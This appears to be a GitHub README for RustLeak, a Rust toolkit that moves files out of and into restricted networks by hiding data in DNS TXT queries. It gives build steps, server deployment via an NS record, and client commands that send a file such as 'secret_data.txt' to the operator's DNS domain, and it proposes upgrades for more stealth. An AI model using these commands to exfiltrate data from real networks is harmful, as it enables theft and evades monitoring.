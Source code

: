 # **RustLeak**

**RustLeak** is a lightweight and stealthy DNS-based data exfiltration and infiltration toolkit, built with Rust. It can be used in a restricted environment. It consists of two main components:
- **\`rustleak-server\`**: The custom DNS server that processes data through DNS queries.
- **\`rustleak-client\`**: The client tool to send or receive data using the server.

** IMPORTANT ** 
You need to setup and host the DNS Server.
Then change your DNS Provider settings to redirect the DNS traffic to your server.
---

## **Features**
- **Custom DNS Server**: Handles DNS zones and processes encoded data.
- **Exfiltration and Infiltration**: Transmit or receive data using DNS queries and responses.
- **Command-Line Interface (CLI)**: Simple commands for sending and receiving data.

---

## **How It Works**
- **Exfiltration**: The client (\`rustleak-client\`) sends data embedded in DNS queries to the server (\`rustleak-server\`), which decodes and stores it.
- **Infiltration**: The server responds with data embedded in DNS responses, and the client decodes the received data.

---

## **Possible upgrades**
- **Single Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server)
- **Dual Encryption** : Using encryption in order to increase stealth. ( Restricted host <--> DNS Server <--> External host)
- **Record Type rotation**: Actually only TXT records are used to send/receive data.

---

## **Installation**

### Prerequisites
- Rust (latest stable version)
- Cargo (Rust package manager)

### Clone the Repository
\`\`\`bash
git clone https://github.com/Natounet/RustLeak.git
cd RustLeak
\`\`\`

### Build the Tools
\`\`\`bash
cargo build --release
\`\`\`

---

## **Usage**

### **Client: \`rustleak-client\`**
The client provides commands to send or receive data via DNS queries. Below are the supported commands:

#### **Send Data**
Use the \`Send\` command to exfiltrate data:
\`\`\`bash
rustleak-client send --code <unique_code> --filename <file_to_send> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: A unique identifier for the data being sent.
- \`--filename\`: Path to the file containing the data to be sent.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client send --code test123 --filename secret_data.txt --domain example.com
\`\`\`

#### **Receive Data**
Use the \`Receive\` command to retrieve data:
\`\`\`bash
rustleak-client receive --code <unique_code> --filename <output_file> --domain <dns_server_domain>
\`\`\`

**Options**:
- \`--code\`: The unique identifier for the data to retrieve.
- \`--filename\`: Path to the file where the received data will be saved.
- \`--domain\`: The domain name managed by the DNS server.

**Example**:
\`\`\`bash
rustleak-client receive --code test123 --filename received_data.txt --domain example.com
\`\`\`

---

### **Server: \`rustleak-server\`**
The server handles DNS queries for a specific domain.

#### **Start the Server**
Run the server and specify the DNS zone to manage:
\`\`\`bash
rustleak-server --domain <dns_zone> 
\`\`\`

**Options**:
- \`--domain\`: The DNS zone to manage (e.g., \`example.com\`).
- \`--port\`: The port for the DNS server (default: 53).
- \`--output\`: File to save data received from clients.

**Example**:
\`\`\`bash
rustleak-server --domain example.com 
\`\`\`

---

## **Deployment**

To deploy \`rustleak-server\` online:
1. Obtain a domain name (e.g., \`example.com\`) and configure its DNS records.
2. Point your domain's **NS record** to the public IP of the machine running \`rustleak-server\`.
3. Start the server with the appropriate domain.

**DNS Configuration Example**:
\`\`\`plaintext
example.com.    IN NS   <server-public-ip>
\`\`\`

---

## **License**
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

## **Contributing**
Contributions are welcome! Feel free to submit issues or pull requests for bug fixes or new features.

---

## **Disclaimer**
This tool is intended for **educational purposes** and authorized security testing only. The developer is not responsible for any misuse of this tool.

---

## **Contact**
For any questions or feedback, please open an issue on the [GitHub repository](https://github.com/Natounet/RustLeak).

---
